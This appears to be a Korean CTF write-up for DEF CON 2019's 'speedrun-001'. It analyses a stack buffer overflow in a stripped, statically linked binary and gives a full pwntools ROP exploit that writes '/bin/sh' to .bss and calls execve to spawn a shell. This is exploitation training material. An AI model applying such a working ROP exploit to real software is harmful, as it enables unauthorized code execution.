 ```yaml
---
title: "2019 Defcon CTF speedrun-001"
date: 2020-1-4
tags: [Defcon]
categories: [Defcon]
---
```


statically linked이고 stripped 돼있다.

```
speedrun-001: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=e9266027a3231c31606a432ec4eb461073e1ffa9, stripped
```

여기가 main인거같다. 그냥 bof터진다. RELRO는 Partial이고 NX걸려있다.

```c
__int64 sub_400B60()
{
  char buf; // [rsp+0h] [rbp-400h]

  sub_410390("Any last words?");
  sub_4498A0(0, &buf, 0x7D0uLL);
  return sub_40F710("This will be the last thing that you say: %s\n");
}
```

stripped 되어있어서 syscall 가져와서 익스해주면 된다. syscall gadget은 그냥 널려있는데 read syscall을 이용했다.

bss영역에 `/bin/sh\x00` 을 넣어주고 `execve` 로 쉘따면된다.

> exploit.py

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'
e = ELF('./speedrun-001')
p = process('./speedrun-001')
prax = 0x0000000000415664 # pop rax ; ret
prdi = 0x0000000000400686 # pop rdi ; ret
prsi = 0x00000000004101f3 # pop rsi ; ret
prdx = 0x00000000004498b5 # pop rdx ; ret
main = 0x0000000000400B60
syscall = 0x00000000004498AC

payload = '\x90'*1024
payload += 'realsung'
payload += p64(prax) + p64(0)
payload += p64(prdi) + p64(0)
payload += p64(prsi) + p64(e.bss())
payload += p64(prdx) + p64(10)
payload += p64(syscall)
payload += p64(main)

p.sendlineafter('Any last words?',payload)
p.sendline('/bin/sh\x00')

payload2 = '\x90'*1024
payload2 += 'realsung'
payload2 += p64(prax) + p64(59)
payload2 += p64(prdi) + p64(e.bss())
payload2 += p64(prsi) + p64(0)
payload2 += p64(prdx) + p64(0)
payload2 += p64(syscall)

p.sendlineafter('Any last words?',payload2)

p.interactive()
```

